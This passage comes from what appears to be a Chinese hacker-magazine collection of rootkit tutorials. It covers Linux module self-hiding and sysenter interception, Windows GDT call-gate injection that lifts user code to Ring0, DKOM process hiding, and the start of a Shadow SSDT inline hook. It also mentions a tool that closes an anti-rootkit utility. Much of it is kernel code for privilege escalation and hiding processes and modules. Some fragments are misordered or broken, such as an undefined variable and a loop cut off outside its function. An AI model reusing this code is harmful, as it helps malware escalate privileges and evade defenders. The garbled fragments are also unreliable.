    struct module *m = &__this_module;
    if (m->init == init_module)
        list_del(&m->list);
    // 从模块链表中移除此模块
    else return -1;
    return 0;
}
```

写到这里，读者可能一直在想，本文前面曾提到过 sysenter/sysexit 指令，但却没有任何有关它们的代码设计与分析。若拦截系统调用不是通过 int 0x80 软中断进入 Ring0 级内核态的，那么上面的所有实现将不起任何作用。显然，我们还需要修改 sysenter_entry 的函数实现部分。我们来看看 sysenter_entry 函数的源码，同样在 arch/i386/kernel/entry.S 中定义。部分内容如下：

```asm
ENTRY(sysenter_entry)
......
pushl %eax
CFI_ADJUST_CFA_OFFSET 4
SAVE_ALL
GET_THREAD_INFO(%ebp)
jnz syscall_trace_entry
cmpl $(nr_syscalls), %eax
jae syscall_badsys
call *sys_call_table(,%eax,4)
movl %eax,EAX(%esp)
```

由上面的代码可知，系统调用号最后还是跳转到了 sys_call_table 中，即调用 `call *sys_call_table(,%eax,4)` 指令，而且同样存在 `cmpl $(nr_syscalls),%eax` 和 `jae syscall_badsys` 两条指令。因此在程序设计上，shellcode 的构造完全一致，只是 sysenter_entry 的地址获取不一致，我们可以直接借助以下语句获取其地址值。

```c
void * get_sysenter_entry(void)
{
    void * psysenter_entry = NULL;
    unsigned long v2;
    if (boot_cpu_has(X86_FEATURE_SEP))
        /* 利用 rdmsr（MSR_IA32_SYSENTER_EIP）读入系统定义的 Sysenter 指令的目的地址 */
        rdmsr(MSR_IA32_SYSENTER_EIP, psysenter_entry, v2);
    else return NULL;
    return psysenter_entry;
}
```

当然，我们也可以直接进行硬编码来获取此值，即在命令终端键入 `grep sysenter_entry /proc/kallsyms`。但此方法不具有兼容性，在不同的 Linux 机器上，硬编码出来的地址值是不一样的。还有一种方法，类似于 Ring3 下借助于 `/dev/mem` 向 Linux 内核注入恶意代码时 kmalloc 函数地址的获取方式，在 kallsyms 中搜索 sysenter_entry 关键词，以获取其地址。针对 sysenter_entry 函数实现的修改，即替换成我们的 hook 函数代码，这里就不再给出了，完全类似于 set_idt_handler 函数，只是需要我们保存 `call *sys_call_table(,%eax,4)` 语句之后的指令地址值。

#### 小结

通过修改 `cmpl $(nr_syscalls),%eax` 和 `jae syscall_badsys` 指令的方式，能够有效截获系统调用，有效躲避针对 sys_call_table 的完整性校验。当然，这种方式并不能完全躲避检测，技术精湛的网管管理员可以运行补丁的方式进行检测，即针对函数中的所有跳转指令进行分析，由跳转指令获取相对跳转值，然后得出跳转后的处理函数地址，继而可以在内核符号表中查找，以判断是否为恶意修改模块。

总之，Rootkit 技术的发展已经变得十分可怕，从早期的用户态 Rootkit，到内核态 Rootkit 和基于 VFS 的 Rootkit，再到基于 BIOS、MBR 的 Rootkit 技术，乃至基于 VMM 的 Rootkit 以及曾引发全球用户一度恐慌的基于 Intel CPU 缓存污染的 SMM 攻击技术，等等。所有这些技术，需要我们大家共同学习与交流。

前置知识：VC  
关键词：编程、GDT、进程

## Hook全局描述符表

### GDT实现进程隐藏



文/图 小小彬

涉及内核的所有操作都需要 Ring0 级权限，因此，如何将 Ring3 级提升到 Ring0 级一直是 Hacker 们关心的焦点。Windows 将内核模式运行在 CPU 的 Ring0 级别，而将用户模式运行在 CPU 的 Ring3 级别。CPU 除了负责跟踪为软件代码和内存分配 Ring 的情况，并在各个 Ring 之间实施访问限制之外，还需要负责指定许多决策，如 CPU 必须决定当中断发生、软件程序崩溃、硬件发生错误、多线程程序切换等诸多异常情况。对于每一个事件，CPU 必须处理该事件所用的软件例程。故操作系统引入了几个重要的系统表，如 GDT、LDT、IDT、IVT、SSDT 等，来帮助解决用户态程序与内核模式通信等诸多问题。这些表引起了所有 Hacker 的格外关注，如 Hook IVT、Hook SSDT、Hook IDT 等各种 Rootkit 技术都已出现。

本文主要阐述如何通过 Hook GDT 表实现权限的提升，并在 Ring0 级权限中通过 DKOM 技术实现进程的隐藏。主要思路是通过截获 GDT 表，在 GDT 表的保留字段中插入一个调用门描述符（其中调用门描述符中设置自己的函数地址），当调用门触发后，则可执行我们的 Hook 函数。在 Hook 函数中，我们采用 DKOM 技术实施进程隐藏，然后在 Ring3 下的应用程序中借助 `call fword ptr [address]` 指令发起远程调用，从而实现在 Ring0 级中执行自己的代码。虽然虎子哥哥以前的相关文章也提到过类似技术，但本文所采用的技术及侧重点会有所不同，同时将更加清晰全面地阐述整个 Hook GDT 流程，希望能给大家带来新的收获。

#### 前置知识

对 GDT 表的结构原理必须理解清楚，否则是无法理解 GDT 的 Hook 技术的。GDT 主要用于存放操作系统和各任务公用的描述符，如数据和代码段描述符、任务状态段 TSS 描述符等。在保护模式的段式内存管理机制中，段逻辑地址到线性地址的映射就是借助 GDT 表完成的。GDT 表中存放了大量的段描述符表结构，每个结构占 8 字节，其结构体中包含一个过程调用函数基地址，此地址加上段偏移地址即可得出线性物理地址。段地址结构包含两个组件，即段选择子和有效偏移地址，其中段选择子占 16 位，第 3 bit～15 bit 共 13 位即为 GDT 中各描述符表项的索引，故 GDT 中最多可存放 8192 个段描述符表项。段选择子的结构如图 1 所示。



图1

段选择子只是给出了 GDT 中每个段描述符子项的索引，需要定位出每个索引子项的地址，必然需要获取 GDT 首个子项的内存地址，通过 GDTR 寄存器即可获取，结构如下：

```c
typedef struct _GDTR {
    WORD limit;        // GDT 大小
    DWORD baseAddress; // GDT 线性基地址
} GDTR;
```

在程序设计中，类似于获取 IDT 基地址的 sidt 指令，使用 sgdt 指令即可获取此寄存器内容。根据 GDT 基地址即首个子项的内存地址，则可计算出任何一个索引项下的段描述符结构地址，从而读出其对应的函数基地址，再加上 32 位的偏移地址，即为函数的线性物理地址。其段地址向线性物理地址的基本映射关系如图2所示。



图2

对操作系统原理比较清楚的读者，可能会想起基于段页式的内存管理机制，后者只是将线性地址进行了再次划分，将其扩展为页目录、页表以及页地址而已，这里不再论述。

#### 核心技术分析

为了让用户程序可直接访问系统内核空间，我们可以通过长跳转的方式，跳转到拥有 Ring0 特权级的代码段中去执行即可。而调用门机制正好满足此条件，能够有效地将程序转移到同级或更高特权级的代码段中去执行。调用门描述符的格式如图3所示。



图3

该格式中的 P 标志是存在标志，TYPE 代表描述符的类型。此处为 12，说明是调用门类型；段中偏移值指出将要执行的代码相对于段开始位置的偏移量。DPL（Descriptor Privilege Level）规定了程序或任务访问该门的最低权限，如果门的 DPL 是 3，则任何用户程序都可以访问它。段选择符指向目标代码段，可以是同级代码段，也可以是更高特权级代码段；如果指向 Ring0 级代码段，就可以使程序拥有最高的特权级。

- 人为构建一个调用门，调用门中包含我们的 Hook 函数指针。
- 读取 GDTR 寄存器以定位 GDT 线性基地址。
- 在 GDT 中寻找一个空的描述符子项，以便插入自行构建的调用门。
- 保存 GDT 中将要替换的原始描述符子项，同时插入新的调用门。

```c
typedef struct _CALL_GATE_DESCRIPTOR{
    WORD offset_00_15; // 函数地址低16位
    WORD selector;     // 选择子，此处指定为Ring0下的代码段
    WORD argCount:5;   // 传递给内核栈的参数个数
    WORD zeros:3;      // 保留
    WORD type:4;       // 门类型，0x0C为调用门
    WORD sFlag:1;      // 段类型（0=系统段）
    WORD dpl:2;        // 门权限
    WORD pFlag:1;      // GDT中段描述符存在标记
    WORD offset_16_31; // 函数地址高16位
} CALL_GATE_DESCRIPTOR,*PCALL_GATE_DESCRIPTOR;
```

如何从 GDT 表中寻找空位来存放调用门描述符？我们可以采用以下两种方式：其一，遍历 GDT 表中的每个描述符表，判断 PFlag 成员值是否为 0；其二，直接选择一个较大的数组索引值，如 0x68。我们可以借助 Windbg 查看 GDT，Windows 系统只使用了不到 20 个描述符项。实际上，在第 34 个描述符子项后的所有子项都标识为 “Reserved”，故为了快速定位一个空子项，我们完全可以直接选择一个较大的索引项。

现在我们就可以编写驱动入口函数 DriverEntry 了。

```c
NTSTATUS DriverEntry(
    IN PDRIVER_OBJECT pDriverObject,
    IN PUNICODE_STRING regPath) {
    CALL_GATE_DESCRIPTOR newCG;
    calledFlag = 0x0;   // 全局变量，用于标识调用门中的函数是否调用
    DbgPrint("Driver Entry Started\n");
    pDriverObject->DriverUnload = Unload;
    PrintGDT();  // 打印GDT表
    DbgPrint("Injecting a new callgate!\n");
    // New一个新的调用门结构
    newCG = buildCallGate((BYTE*)CallGateProc);
    // 将生成的调用门结构插入到GDT任一空描述符表项中
    oldCG = injectCallGate(newCG);
    PrintGDT();
    return(STATUS_SUCCESS);
}
```

故涉及进程的各种操作时则需要互斥锁进行互斥访问。修改 GDT 表项的代码如下：

```c
CALL_GATE_DESCRIPTOR injectCallGate(CALL_GATE_DESCRIPTOR cg){
    PSEG_DESCRIPTOR gdt;
    PSEG_DESCRIPTOR gdtEntry;
    PCALL_GATE_DESCRIPTOR oldCGPtr;
    CALL_GATE_DESCRIPTOR oldCG;
    gdt = getGDTBaseAddress();
    // 获取GDT线性基地址
    oldCGPtr = (PCALL_GATE_DESCRIPTOR)&(gdt[104]); // 保留104号索引子项原有内容
    oldCG = *oldCGPtr;
    gdtEntry = (PSEG_DESCRIPTOR)&cg;
    // 将新构建的调用门插入到104号索引项中
    gdt[104] = *gdtEntry;
    return(oldCG);
}
```

为了能够触发我们的 Hook 函数，需要将 Hook 函数即 CallGateProc 函数指针作为参数传递给 buildCallGate 函数。下面给出构建调用门描述符的具体代码：

好了，现在需要构建我们自己的 Hook 函数了。具体代码如下：

```c
CALL_GATE_DESCRIPTOR buildCallGate(char* procAddress){
    CALL_GATE_DESCRIPTOR cg;
    address = (DWORD)procAddress;
    cg.selector = 0x08;
    // 指定为Ring0下的代码段选择子
    cg.argCount = 0;
    cg.zeros = 0;
    cg.type = 0xc;   // 指定描述符类型为调用门
    cg.sFlag = 0;
    cg.dpl = 0x3;
    // 使Ring3下代码可调用此门
    cg.pFlag = 1;    // 标记此描述符已使用
    cg.offset_00_15 = (WORD)(0x0000FFFF & (DWORD)address);
    address = address >> 16;
    cg.offset_16_31 = (WORD)(0x0000FFFF & (DWORD)address);
    return(cg);
}
```

```c
void __declspec(naked)CallGateProc(){
    __asm{
        pushad;   // push EAX, ECX, EDX, EBX, ESP, ESI, EDI
        pushfd;   // push EFLAGS
        cli;      // 关中断
        push fs;  // 保存当前线程的TEB结构指针
        mov bx,0x30;
        mov fs,bx;
        push ds;
        push es;
        call MyHookFunc;   // 调用我们的Hook函数
    }
    calledFlag = 0x1;
    __asm{
        pop es;
        pop ds;
        pop fs;
        sti;
        popfd;
        popad;
        retf;
    }
}
```

调用门描述符已经构建好了，现在需要将此调用门插入到 GDT 表中任一空描述符子项中，即修改 GDT 相应表项。可能有些读者会想到采用内核锁机制，互斥地访问 GDT 中对应的子项。其实，在这里完全可以直接修改，因为 GDT 在系统内核启动时就已经创建好了，并且不会再更改。与进程链表是截然不同的，在进程链表中，经常会动态地创建或者删除进程。

整个驱动程序就已经写好了，那么我们如何在用户态下触发此调用门呢？Intel 手册第 3 卷中明确指出，为了访问一个调用门，可直接采用 Call 或者 JMP 指令跳转到指向调用门的内存地址处，段选择子直接标识出调用门描述符的基地址，32 位的偏移地址并不使用，可设置成任意值。故在这里我们可以完全忽略掉偏移地址，将其置 0。用户态代码如下：

```c
unsigned short callOperand[3];
void main(){
    callOperand[0] = 0x0;
    callOperand[1] = 0x0;
    callOperand[2] = 0x340;
    __asm{
        Call fword ptr[callOperand];
    }
    return;
}
```

为了更好地观察 Hook GDT 后 GDT 中各子项的变化，我们可以在 Hook 前后将 GDT 表中的描述符表项结构体中的相应成员打印出来。具体代码可参考：

```c
void printGDT(){
    DWORD nGDT, baseAddress;
    PSEG_DESCRIPTOR gdt;
    DWORD i, limit, increment;
    gdt = getGDTBaseAddress();
    nGDT = getGDTSize();
    DbgPrint("------------------------------");
    for(i=0;i<nGDT;i++){
        DWORD index;
        char present[2][3] = {"Np\0","P\0"};
        char granularity[2][3] = {"By\0","Pg\0"};
        baseAddress = 0;
        baseAddress = baseAddress + sd.baseAddress_24_31;
        baseAddress = baseAddress << 8;
        baseAddress = baseAddress + sd.baseAddress_16_23;
        baseAddress = baseAddress << 16;
        baseAddress = baseAddress + sd.baseAddress_00_15;
        limit = 0;
        limit = limit + sd.size_16_19;
        limit = limit << 16;
        limit = limit + sd.size_00_15;
        index = sd.type;
        DbgPrint("%08x %08x %u -- %s %s %u",
            baseAddress,
            limit,
            sd.dpl,
            granularity[sd.gFlag],
            present[sd.pFlag],
            sd.sFlag
        );
        gdt = gdt + 1;
    }
    return;
}
```

OK，我们已经成功地安装了调用门，并能够通过上述用户态程序触发调用门，实现了用户程序的特权级由 Ring3 到 Ring0 的提升。此时，我们就可以实现对用户态空间和内核空间的任意访问了。为了实现进程隐藏，此时完全可以利用 DKOM 技术，调用 PsGetCurrentProcess() 函数获取与当前线程相关的 EPROCESS 结构体对象，从而得到进程的 PID 或者进程的名字，以此来判断此进程是否为待隐藏进程。因进程链表为双端循环链表，所以我们可以从当前进程使用 ActiveProcessLinks 成员，依次循环匹配指定的 PID，直到正确匹配为止。当成功匹配后，我们只需要修改进程链表的 Flink、Blink 两个前后向指针即可，类似于一般的双向链表节点删除操作，相关代码如下：

```c
prevListEntry->Flink = nextListEntry;
nextListEntry->Blink = prevListEntry;
currentListEntry->Flink = currentListEntry;
currentListEntry->Blink = currentListEntry;
```

或许读者会想，如果将指定进程从进程链表中删除，那么此进程还在系统中运行吗？实际上，Windows 的进程调度机制最根本还是基于线程调度的，进程只是提供一个线程可以得到运行的上下文环境，如存储空间、全局变量等共享的系统资源。例如进程 A 拥有 3 个可运行线程，进程 B 拥有 2 个可运行线程，则内核调度管理器只会识别出 5 个线程，并会为这 5 个线程合理安排 CPU 时间，并不关心它们具体归属于哪个进程。故从进程链表中删除指定的进程，不会影响它的每个线程的运行。下面给出进程隐藏的核心代码部分：

```c
void modifyTaskList(DWORD pid){
    BYTE *currentPEP = NULL;
    BYTE *nextPEP = NULL;
    int currentPID = 0;
    int startPID = 0;
    BYTE name[SZ_EPROCESS_NAME];
    currentPEP = (UCHAR*)PsGetCurrentProcess();
    currentPID = getPID(currentPEP);
    if(currentPID==pid){
        DeleteTaskListEntry(currentPEP);
        // 删除此进程链表节点
        return;
    }
}
```

```cpp
nextPEP = getNextPEP(currentPEP);
// 获取下一个 listEntry 中的链表节点
currentPEP = nextPEP;
currentPID = getPID(currentPEP);
getTaskName(name, (currentPEP + EPROCESS_OFFSET_NAME));

while (startPID != currentPID)
{
    if (currentPID == pid) {
        DeleteTaskListEntry(currentPEP);
        return;
    }

    nextPEP = getNextPEP(currentPEP);
    currentPEP = nextPEP;
    currentPID = getPID(currentPEP);
    getTaskName(name, (currentPEP + EPROCESS_OFFSET_NAME));
}
```

针对 DKOM 技术下的进程隐藏技术，若读者需要更加深入的理解，可参考《Rootkits: Subverting the Windows Kernel》中的第 7 章“直接内核对象操作”。在整个代码的测试过程中，首先将前面的驱动程序编译成 sys 文件，然后用 Driver Monitor 等软件将 sys 文件运行起来。在用户模式下，用 VC 编译前面的应用程序代码，包括调用门的触发及其进程隐藏代码。

运行起来后，再打开 DbgView 查看驱动程序中的输出，如 GDT 的变化情况等，如图 4 所示。



图4

#### 小结

在驱动层次，通过 Hook GDT 可以有效修改 GDT 中保留的描述符表项，插入一个设计良好的调用门描述符结构，从而可以使用户通过 Ring3 级别下的用户态程序直接操作内核对象，如利用 DKOM 技术实现进程隐藏等。Rootkit 技术从各种 Hook 技术到 detour 技术（运行时补丁技术），再到 DKOM 技术，而后逐步演变到各种 Bootkit，如 eEye BootRoot、VBootkit、inghu Bootkit 等，每一种技术都是在不断地向着更高层次、更高技术迈进。

- 前置知识：VC
- 关键词：编程、Ring0、Inline Hook



## Ring0中Inline Hook Shadow SSDT 实现窗体保护

文/图 广东工业大学 胡文章（Hovi.Delphic）[HooS~Soft]

黑防中关于 Inline Hook 底层函数实现进程保护的文章已经很多了，但却鲜有文章谈到窗体保护，可能是因为知道 Shadow SSDT 的人不多和对窗体保护重要性认识不足导致的。今天，我就抛砖引玉，谈谈如何进行窗体保护。

在杀软进程自我保护日益强大的今天，不少病毒都放弃了直接对杀软进程的攻击，而是开始对杀软的窗体进行攻击。比如说磁碟机就是先攻击杀软的窗体，等杀软失去了和用户的交互能力后，再为所欲为。

比如冰刃 Inline Hook 了 NtOpenProcess、NtTerminateProcess、NtOpenThread、NtTerminateThread，甚至 Inline Hook 了 KInsertQueueApc。但是上述三者都能通过在 Ring3 下将 EnumWindows + SetParent 弄得失去效用，甚至被结束进程。由于冰刃的窗体有两个明显的特征，即使随机窗体标题和随机窗体类名也不管用，依然可以用 FindWindow 查找到并被 EnumWindows + SetParent 关闭。由于这个和本文主题没有关系，就不详细说明了。本文附带了一个 VB 源码，就是自动关闭冰刃的。无论以何种方式运行冰刃，只要自动灭冰刃的程序运行后，冰刃都会在 0.5s 内被关闭。

所以，我们就要 Inline Hook Shadow SSDT 实现窗体保护。由于仅仅是一个 DEMO，所以我只挂钩了 NtUserQueryWindow、NtUserFindWindowEx、NtUserBuildHwndList、NtUserWindowFromPoint，来保护不被别的程序取到自身程序窗体的句柄。

#### Shadow SSDT 的结构

```c
typedef struct _SERVICE_DESCRIPTOR_TABLE {
    // SSDT 结构
    SYSTEM_SERVICE_TABLE ntoskrnl;
    // ntoskrnl.exe (native api)
    SYSTEM_SERVICE_TABLE win32k;
    // win32k.sys (gdi/user)
    SYSTEM_SERVICE_TABLE Table3; // not used
    SYSTEM_SERVICE_TABLE Table4; // not used
} SERVICE_DESCRIPTOR_TABLE, *PSERVICE_DESCRIPTOR_TABLE;
```

接下来看几个被 HOOK 函数的原型：

```c
typedef ULONG (*NTUSERWINDOWFROMPOINT)(LONG, LONG);
typedef UINT_PTR (*NTUSERQUERYWINDOW)(
    IN ULONG WindowHandle,
    IN ULONG TypeInformation
);
typedef ULONG (*NTUSERFINDWINDOWEX)(
    IN HWND hwndParent,
    IN HWND hwndChild,
    IN PUNICODE_STRING pstrClassName OPTIONAL,
    IN PUNICODE_STRING pstrWindowName OPTIONAL,
    IN DWORD dwType
);
```

```c
typedef NTSTATUS (*NTUSERBUILDHWNDLIST)(
    IN HDESK hdesk,
    IN HWND hwndNext,
    IN ULONG fEnumChildren,
    IN DWORD idThread,
    IN UINT cHwndMax,
    OUT HWND *phwndFirst,
    OUT ULONG *pcHwndNeeded
);
```

以及这几个函数在 Shadow SSDT 下的偏移：

```c
ULONG NtUserQueryWindow_Index   = 483;
ULONG NtUserFindWindowEx_Index  = 378;
ULONG NtUserBuildHwndList_Index = 312;
ULONG NtUserWindowFromPoint_Index = 592;
```

注意，这里使用了硬编码，仅仅适用于 Windows XP 系统。如果要在其他系统下使用，只要修改一下硬编码就可以了。之后我们还要得到 Shadow SSDT 的地址：

```c
ULONG GetShadowTableAddress()
{
    ULONG dwordatbyte, i;
    PUCHAR p = (PUCHAR)KeAddSystemServiceTable;
    for (i = 0; i < PAGE_SIZE; i++, p++)
    {
        __try { dwordatbyte = *(PULONG)p; }
        __except(EXCEPTION_EXECUTE_HANDLER) { return FALSE; }

        if (MmIsAddressValid((PVOID)dwordatbyte))
        {
            if (memcmp((PVOID)dwordatbyte, KeServiceDescriptorTable, 16) == 0)
            {
                if ((PVOID)dwordatbyte == KeServiceDescriptorTable)
                    continue;
                return dwordatbyte;
            }
        }
    }
    return FALSE;
}
```

由于要挂钩 4 个函数，为了方便起见，我们有必要写一个名称为 “HOOK” 的函数和一个名称为 “UNHOOK” 的函数，代码如下：

```c
void Hook(PVOID Func, PVOID New_Func, PVOID Proxy_Func)
{
    ULONG PatchSize;
    BYTE g_HookCode[5] = {0xE9, 0, 0, 0, 0}; // 相对跳转
    BYTE Jmp_Orig_Code[7] = {0xEA, 0, 0, 0, 0, 0x08, 0x00}; // 绝对地址跳转

    PatchSize = GetPatchSize(Func, 5);
    // 获得要 Patch 的字节数

    // 构造 Proxy_Func
    memcpy((PBYTE)Proxy_Func, (PBYTE)Func, PatchSize);
    *((PULONG)(Jmp_Orig_Code + 1)) = (ULONG)((PBYTE)Func + PatchSize);
    memcpy((PBYTE)Proxy_Func + PatchSize, Jmp_Orig_Code, 7);

    *((ULONG*)(g_HookCode + 1)) = (ULONG)New_Func - (ULONG)Func - 5;
    MemOpen();
    memcpy(Func, g_HookCode, 5);
    MemClose();
}

// UnHook 函数
void UnHook(PVOID Func, PVOID Proxy_Func)
{
    MemOpen();
    memcpy(Func, Proxy_Func, 5);
    MemClose();
}
```

```c
Old_NtUserWindowFromPoint = ExAllocatePool(NonPagedPool, 20);
memset(Old_NtUserQueryWindow, 0x90, 20); // NOP 一下
memset(Old_NtUserFindWindowEx, 0x90, 20);
memset(Old_NtUserBuildHwndList, 0x90, 20);
memset(Old_NtUserWindowFromPoint, 0x90, 20);

// HOOK
Hook(NtUserQueryWindow, fake_NtUserQueryWindow, Old_NtUserQueryWindow);
Hook(NtUserFindWindowEx, fake_NtUserFindWindowEx, Old_NtUserFindWindowEx);
Hook(NtUserBuildHwndList, fake_NtUserBuildHwndList, Old_NtUserBuildHwndList);
Hook(NtUserWindowFromPoint, fake_NtUserWindowFromPoint, Old_NtUserWindowFromPoint);

VOID StopHook()
{
    UnHook(NtUserQueryWindow, Old_NtUserQueryWindow);
    UnHook(NtUserFindWindowEx, Old_NtUserFindWindowEx);
    UnHook(NtUserBuildHwndList, Old_NtUserBuildHwndList);
    UnHook(NtUserWindowFromPoint, Old_NtUserWindowFromPoint);

    ExFreePool(Old_NtUserQueryWindow);
    ExFreePool(Old_NtUserFindWindowEx);
    ExFreePool(Old_NtUserBuildHwndList);
    ExFreePool(Old_NtUserWindowFromPoint);
}
```

接下来是执行挂钩操作和卸载钩子的操作，代码如下：

接下来就是重头戏了，过滤掉自己要保护的窗体信息，实现代码如下：

```c
VOID StartHook()
{
    // 处理 SSDT/SSSDT 的 API
